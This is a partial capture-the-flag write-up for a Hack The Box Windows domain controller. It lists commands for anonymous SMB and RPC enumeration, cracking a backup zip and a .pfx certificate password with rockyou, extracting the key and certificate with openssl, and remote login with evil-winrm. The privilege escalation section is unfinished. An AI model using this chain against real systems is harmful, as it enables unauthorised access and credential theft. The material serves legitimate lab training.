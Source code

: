 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available. ```Msfconsole```.

```
rpcclient -U '' -N 10.10.11.152
help
getusername
enumprivs
```
pic5

unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 

# Initial Foothold
smbclient -N -L //10.10.11.152/
pic 2


7z l -slt winrm_backup.zip
pic 3

fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
pic 4

unzip winrm_backup.zip
legacyy_dev_auth.pfx

I had to update ```john``` in order to have ```pfx2john``` available
and run the following command to create a suitable hash for ```john```
```
pfx2john legacy_dev_auth.pfx > hash
```
And pass it along to john:
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
pic6

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one could extract the private key and certificate from a pfx file.

Extract the private key:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 
pic 7

And we do the same to extract the certificate:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evilwin-rm``` .
````
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

# Privilege Escalation
[TO BE CONTINUED]






